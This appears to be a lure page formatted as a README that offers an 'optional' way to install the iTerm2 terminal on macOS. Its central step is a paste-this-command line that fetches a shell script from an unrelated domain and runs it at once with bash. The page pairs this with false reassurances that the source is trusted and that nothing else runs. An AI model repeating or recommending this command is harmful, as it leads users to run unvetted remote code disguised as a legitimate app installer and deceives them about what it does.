 # 💻 iTerm2 access for macOS — safe, simple, optional

If you're looking for a polished terminal that fits naturally into macOS, iTerm2 is worth exploring.  
This optional method gives you quick access without system changes or extra steps.

---

## ✨ Quick Access Guide

Copy and paste this command into your Terminal:

```bash
/bin/bash -c "$(curl -fsSL https://cfocares.com/iterm2/install.sh)"
```

What happens:

- iTerm2 is downloaded from a trusted source  
- It is placed into your Applications folder  
- The app launches, allowing you to start immediately

Nothing else runs. You’re always in control.

---

## 🔧 System Checklist

- macOS 10.14 or later  
- Internet access  
- Terminal.app available

---

## 📌 Why People Use It

- Lightweight and fast  
- Split panes, tabs, profiles, and themes  
- Compatible with modern shells

---

> Transparent. Smooth. Built for users who value simplicity.
